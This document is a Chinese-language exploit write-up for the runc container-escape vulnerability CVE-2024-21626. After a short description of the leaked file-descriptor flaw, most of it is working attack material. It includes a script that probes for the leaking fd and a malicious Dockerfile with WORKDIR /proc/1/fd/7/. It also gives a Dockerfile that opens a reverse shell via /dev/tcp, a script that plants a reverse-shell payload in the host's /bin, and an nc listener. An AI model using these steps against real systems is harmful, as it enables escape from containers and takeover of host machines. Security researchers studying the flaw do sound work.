 # CVE-2024-21626 利用场景



## 影响组件

runc是一个根据OCI规范，在Linux上生成和运行容器的命令行工具。runc的使用非常灵活，可以与各种容器工具和平台集成，如Docker、Kubernetes等。它支持多种容器格式，包括OCI规范定义的标准格式，以及其他格式如Docker镜像格式。作为开源项目，runc受到全球开发者社区的广泛参与和贡献，被广泛应用于生产环境中的容器化部署。

## 漏洞描述

近日，奇安信CERT监测到runc官方发布安全通告修复了**runc容器逃逸漏洞(CVE-2024-21626)**，由于runc存在内部文件描述符泄露，本地攻击者可以通过多种方式进行容器逃逸：

1、由于runc 内部意外地将包括宿主机 /sys/fs/cgroup 句柄的几个文件描述符泄漏到 runc init 中，攻击欺骗具有特权的用户执行恶意容器镜像，可以导致pid1 进程将在宿主机挂载命名空间中拥有一个工作目录，生成的进程可以访问整个宿主文件系统。

2、由于runc exec中同样存在文件描述符泄漏和工作目录验证不足。如果容器内的恶意进程知道某个管理进程将使用 --cwd 参数和给定路径调用 runc exec，便可以用符号链接将该路径替换为 /proc/self/fd/7/ 。一旦容器进程执行了容器镜像中的可执行文件，可以绕过PR_SET_DUMPABLE 保护，之后攻击者可以通过打开 /proc/$exec_pid/cwd 来访问主机文件系统。

3、可以通过将类似/proc/self/fd/7/../../../bin/bash的路径用作 process.args 二进制参数来覆盖主机二进制文件来改进攻击1、2。由于可以覆盖类似 /bin/bash的二进制文件，一旦特权用户在主机上执行目标二进制文件，攻击者就可以进行转移，以完全访问主机。

## 爆出漏洞的fd脚本

若哪个fd存在漏洞，则这个脚本会显示出来你宿主机的hostname，这个fd要记录下来填到下面的Dockerfile里

> https://github.com/Wall1e/CVE-2024-21626-POC/blob/main/poc.sh

```bash
#! /bin/bash
for i in {4..20}; do
    docker run -it --rm -w /proc/self/fd/$i ubuntu:20.04 bash -c "cat /proc/self/cwd/../../../etc/hostname"
done
```



## 恶意Dockerfile

```dockerfile
FROM ubuntu:18.04
WORKDIR /proc/1/fd/7/
```

## 构建Dockerfile

```bash
docker build .
docker run dockerid ls   ../../../
docker run dockerid cat /proc/1/cwd/../../../../etc/hostname
```

## 反弹shell

对于业务来说，给一个上面的恶意镜像

然后可以加一个CMD 反弹shell

```dockerfile
FROM ubuntu:18.04
WORKDIR /proc/1/fd/7/
CMD /bin/bash -c 'bash -i >&/dev/tcp/ip/8000 0>&1'
```

## 给宿主机植入shell

```bash
#!/bin/bash
ip=$(hostname -I | awk '{print $1}')
port=1337
cat > /proc/self/cwd/../../../../bin/bash.copy << EOF
#!/bin/bash
bash -i >& /dev/tcp/$ip/$port 0>&1
EOF

# listen and wait for reverse shell
nc -lvvp 1337
```



## 控制WROKERDIR 

```bash
runc exec --cwd /proc/1/fd/7/ demo ls ../../../../
```

有些产品可以指定 WROKERDIR 也就是 cwd 那么也受影响,可以关注一下启动时候的参数 能不能控制WROKERDIR 


